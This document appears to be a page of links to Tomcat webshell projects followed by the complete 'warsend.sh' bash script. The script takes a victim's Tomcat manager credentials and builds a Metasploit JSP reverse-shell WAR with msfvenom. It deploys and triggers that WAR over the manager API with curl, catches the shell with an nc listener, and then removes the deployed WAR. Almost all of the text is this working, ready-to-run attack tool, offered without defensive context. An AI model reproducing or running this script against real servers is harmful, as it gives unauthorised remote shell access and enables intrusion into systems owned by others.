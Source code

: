 

https://github.com/p0dalirius/Tomcat-webshell-application

https://github.com/mgeeky/tomcatWarDeployer

https://github.com/gquere/javaWebShell

https://github.com/thewhiteh4t/warsend


####
####


#!/bin/bash

R="\033[0;31m"
G="\033[0;32m"
C="\033[0;36m"
Y="\033[1;33m"
W="\033[0m"

LHOST=$1
LPORT=$2
RHOST=$3
RPORT=$4
USER=$5
PASS=$6
FNAME=$7
PAYLOAD="java/jsp_shell_reverse_tcp"
EXT="war"

if [ -z $LHOST ] ||
	[ -z $LPORT ] ||
	[ -z $RHOST ] ||
	[ -z $RPORT ] ||
	[ -z $USER ] ||
	[ -z $PASS ] ||
	[ -z $FNAME ];
then
	echo "
Usage :

* All Values are Required *
* Input Filename Without File Extension *

./warsend.sh LHOST LPORT RHOST RPORT Username Password Filename

Example : ./warsend.sh 10.10.13.37 1337 10.10.10.184 8080 tomcat tomcat revshell
"
	exit
fi

echo -e $G"
 _       _____    ____  _____                __
| |     / /   |  / __ \/ ___/___  ____  ____/ /
| | /| / / /| | / /_/ /\__ \/ _ \/ __ \/ __  /
| |/ |/ / ___ |/ _, _/___/ /  __/ / / / /_/ /
|__/|__/_/  |_/_/ |_|/____/\___/_/ /_/\__,_/
"$W
echo -e $G"[>]$C Created By :$W thewhiteh4t"
echo -e $G"[>]$C Version    :$W 1.0.0\n"

echo -e $G"[+]$C LHOST                  :"$W $LHOST
echo -e $G"[+]$C LPORT                  :"$W $LPORT
echo -e $G"[+]$C RHOST                  :"$W $RHOST
echo -e $G"[+]$C RPORT                  :"$W $RPORT
echo -e $G"[+]$C Username               :"$W $USER
echo -e $G"[+]$C Password               :"$W $PASS
echo -e $G"[+]$C Reverse Shell Filename :"$W $FNAME
echo -e $G"[+]$C Payload                :"$W $PAYLOAD

echo -e $Y"\n[!] Checking Dependencies..."$W

cmd_fail=false
COMMANDS=(msfvenom curl nc)

for cmd in "${COMMANDS[@]}"
do
	if ! command -v $cmd &> /dev/null
	then
		echo -e $R"[-]$C Package Not Found :"$W $cmd
		cmd_fail=true
	fi
done

if [ $cmd_fail = true ];
then
	exit
fi

echo -e $Y"\n[!] Testing Tomcat Manager Text API Access...\n"$W

SCODE=$(curl -u $USER:$PASS -s -o /dev/null -w "%{http_code}" http://$RHOST:$RPORT/manager/text)

if [ $SCODE == 401 ];
then
	echo -e $R"[-]$C Incorrect Username/Password!"$W
	exit
elif [ $SCODE == 200 ];
then
	echo -e $G"[+]$C Login Successful!\n"$W
else
	echo "[-] Status Code :" $SCODE
	exit
fi

echo -e $G"[+]$C Generating WAR Reverse Shell..."$W
msfvenom -p $PAYLOAD LHOST=$LHOST LPORT=$LPORT -f $EXT > $FNAME.$EXT

echo -e $Y"[!] Uploading WAR File..."$W
curl -u $USER:$PASS --upload-file $FNAME.$EXT http://$RHOST:$RPORT/manager/text/deploy?path=/$FNAME

echo -e $Y"\n[!] Triggering Reverse Shell...\n"$W
sleep 5 && curl http://$RHOST:$RPORT/$FNAME/ &> /dev/null &

echo -e $G"[+]$C Starting Listener..."$W
nc -lvp $LPORT

echo -e $Y"\n[!] Cleaning Up..."$W
curl -u $USER:$PASS http://$RHOST:$RPORT/manager/text/undeploy?path=/$FNAME

####
####

